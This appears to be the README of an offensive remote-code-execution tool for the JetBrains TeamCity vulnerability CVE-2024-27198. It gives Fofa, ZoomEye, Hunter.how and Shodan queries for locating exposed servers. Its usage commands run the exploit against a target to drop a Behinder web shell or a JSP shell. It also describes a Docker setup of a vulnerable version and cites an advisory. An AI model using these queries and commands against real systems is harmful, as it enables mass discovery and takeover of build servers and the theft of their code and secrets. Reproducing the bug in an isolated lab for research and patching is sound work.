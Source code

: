 # Cyberspace Mapping Dork

## Fofa

```
app="JET_BRAINS-TeamCity"
```

## ZoomEye

```
app:"JetBrains TeamCity"
```

## Hunter.how

```
product.name="TeamCity"
```

## Shodan

```
http.component:"teamcity"
```

# How to use

I'm using `Python3.9`.

```shell
pip install requests urllib3 faker
python CVE-2024-27198-RCE.py -t http://192.168.198.173:8111 --behinder4
# python CVE-2024-27198-RCE.py -t http://192.168.198.173:8111 -f shell.jsp
```

![](https://raw.githubusercontent.com/W01fh4cker/blog_image/main/image-20240311155702623.png)

![](https://raw.githubusercontent.com/W01fh4cker/blog_image/main/image-20240311132654487.png)

also:

```shell
python CVE-2024-27198-RCE.py -t http://192.168.198.173:8111
```

![](https://raw.githubusercontent.com/W01fh4cker/blog_image/main/image-20240311132752687.png)

# Vulnerability recurrence environment construction

Use docker to pull the vulnerable image and start it:

```shell
sudo docker pull jetbrains/teamcity-server:2023.11.3
sudo docker run -it -d --name teamcity -u root -p 8111:8111 jetbrains/teamcity-server:2023.11.3
# sudo ufw disable
```

Then make basic settings:

![](https://raw.githubusercontent.com/W01fh4cker/blog_image/main/image-20240307232348600.png)

![](https://raw.githubusercontent.com/W01fh4cker/blog_image/main/image-20240307232404056.png)



# Reference

https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/

https://github.com/Chocapikk/CVE-2024-27198
